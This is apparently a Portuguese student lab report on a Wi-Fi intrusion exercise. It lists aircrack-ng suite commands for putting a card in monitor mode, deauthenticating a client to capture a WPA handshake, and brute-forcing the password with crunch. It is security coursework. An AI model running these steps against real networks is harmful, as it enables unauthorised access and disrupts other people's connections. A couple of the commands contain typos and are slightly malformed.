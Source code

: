 ## Invasão Wifi

Para a realização da prática foi bem simples, devido a um conhecimento prévio da ferramenta e pela descrição detalhada do tutorial.

A seguir serão apresentados os passos que foram executados, porém, nenhuma senha foi detectada devido a demora no processo de identificação.

- Para verificar o nome da minha interface wifi foi dado o comando ```iwconfig```.
- Depois, foi dado o comando ```airmon-ng check kill``` para matar qualuqer processo que possa impeder a captura de pacotes
- Para deixar a placa de rede em modo monitor foi executado este comando ```àirmon-ng start wlan0```
- Para identificar as redes disponíveis foi executado o seguinte comando ```airodump-ng wlan0mon```
- Após selecionar a rede alvo, será executado o seguinte comando para iniciar o monitoramento desta rede ```airodump-ng -c [canal_da_rede_alvo] --bssid [bssid_da_rede_alvo] -w dados```
- Agora, será realizado o **WPA HANDSHAKE**, para isso será desconectado algum usuário da rede usando este comando ```aireplay-ng -0 10 -a [bssid_da_rede_alvo] wlan0mon```
- Depois é foi preciso executar o seguinte comando para quebrar a senha por meio de força bruta ```crunch [min] [max] [padrão] | aircrack-ng [file.cap] -w -e [bssid_da_rede_alvo]```

![](images/wifi.png)

No geral a atividade foi simples e o tutorial está bem descrito, nos testes realizados as senhas provavelmente eram bem seguras o que impossibilitou a decifragem a curto prazo.